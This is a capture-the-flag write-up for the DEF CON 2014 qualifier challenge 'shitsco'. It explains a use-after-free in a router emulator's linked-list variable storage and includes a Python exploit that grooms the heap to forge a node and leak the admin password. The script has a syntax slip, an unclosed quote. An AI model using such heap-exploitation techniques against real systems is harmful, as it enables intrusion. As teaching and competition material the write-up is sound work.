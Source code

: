 # DEF CON CTF Qualifier 2014: shitsco

**Category:** Gynophage
**Points:** 2
**Description:**

> [http://services.2014.shallweplayaga.me/shitsco_c8b1aa31679e945ee64bde1bdb19d035](shitsco_c8b1aa31679e945ee64bde1bdb19d035) is running at:
>
> `shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337`
>
> Capture the flag.

## Write-up

Shitsco is a small router emulator. It allows you to ping, to tracert, to use the shell (Yhea, right! :D) and to set and view variables.

As we smell a rat in the variable handling we look into it.

Variables get stored dynamically in a double linked list as shown next.

```c
struct node {
    char *name;
    char *value;
    struct node *next;
    struct node *prev;
};
```

If you create a couple of nodes and delete the first, its strings get freed, their pointers set to NULL but not the link to the next node. Further, commands like show will always start the traversal by the first node, which will succeed until the corresponding memory gets overwritten. Thats what we gonna exploit.

The key is to set variable name and value the same size as a node internally has -> 4 * 4bytes = 16bytes.
So that when adding nodes, the strings and the node itself consume the same amount of memory.


The following is the memory layout with 3 nodes added(= 3 variables set). Note that there is no first node. The first node is in static memory. Also, every allocated heap block has the same length(size).

```
--------------------------------------------------------------
                   /----link----\
HEAP: [ S ][ S ][ N ][ S ][ S ][ N ][ S ][ S ]    N = Node
                 ^                                S = String
                 |
first.next ------/
--------------------------------------------------------------
```

Because of a bug in the system, the first node never gets unlinked properly.
When we delete it, only the strings get freed and set to NULL. The *next pointer stays the same.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][ N ][ S ][ S ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

Deleting also the second results as depicted next.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

The linked list is still intact because the *next pointers never gets set to NULL when deleting the fist node in the list.

When we now create a new node, the system will use the first static node again and just looks to allocate memory for the name and value. As we created uni-sized blocks, the malloc algorithm would use simply the first two free blocks again. Better would have been, if we had set the first block to a smaller size, let's say 11bytes, so the allocations would be like below.


```
--------------------------------------------------------------
 small\          /----link----\
HEAP: [ ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ----/
--------------------------------------------------------------
```

If we create now a new variable with 16bytes strings, the malloc algorithm would shift right by one because the first block is too small for both. That results in having the value string in the location the *first.next pointer still points to. By using good values for the string and link pointers we can get the password out of the memory.

>set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))


```
--------------------------------------------------------------
                 /----link----\
HEAP: [ ][ S ][ X ][   ][   ][ N ][ S ][ S ]    X = Fake node
first.next ----/
--------------------------------------------------------------
```

After getting the password, we just have needed to use it
> enable SecretPassword
>
> flag

unfotunately, we were not able to solve it in time.


## exploit.py

Set ip and port and use it with ./exploit.py or ./exploit.py -d

```python
#!/bin/python2
import socket
from struct import pack
import logging
import sys

# SETTINGS
###################################
TARGET = 'shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337
#TARGET = 'localhost:5000'

PASSWORD_ADDR =  0x804c3a0
NULL_NODE_ADDR = 0x804c37c

# Don't touch things below
TCP_IP, TCP_PORT = TARGET.split(':')
TCP_PORT = int(TCP_PORT)

BUF_SIZE = 2000
MARKER = 'aaa: '

# LOGGING
logging.basicConfig(format='%(message)s')
log = logging.getLogger(__name__)
if '-d' in sys.argv: log.setLevel(logging.DEBUG)
else: log.setLevel(logging.INFO)
D = log.debug
I = log.info

# HELPERS
###################################
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))
    data = s.recv(BUF_SIZE)
    D(data)
    return s

def disconnect(s):
    s.send('quit\n')
    data = s.recv(BUF_SIZE)
    D(data)
    s.close()

def show(s):
    cmd = 'show'
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)
    D(data)
    return data

def set_var(s, name, value='1'):
    cmd = 'set %s %s' % ( name, value)
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

def del_var(s, name):
    cmd = 'set %s' % name
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

# MAIN
###################################
s = connect()

set_var(s, 'a' * 11, '01234567890ABCDEF')
set_var(s, 'b' * 16, 'AKABKN|OWNS!!!111')
set_var(s, 'C' * 16, 'XXXXXXXXXXXXXXXXX')

del_var(s, 'a' * 11)
del_var(s, 'b' * 16)

set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))

data = show(s)
found = data.find(MARKER) if data else 0

if found:
    I('Password: %s', data[found + len(MARKER):data.find('\n$')])

disconnect(s)
```

## Other write-ups and resources

* <https://blog.skullsecurity.org/2014/defcon-quals-writeup-for-shitsco-use-after-free-vuln>
* <http://www.endgame.com/blog/defcon-capture-the-flag-qualification-challenge-1.html>
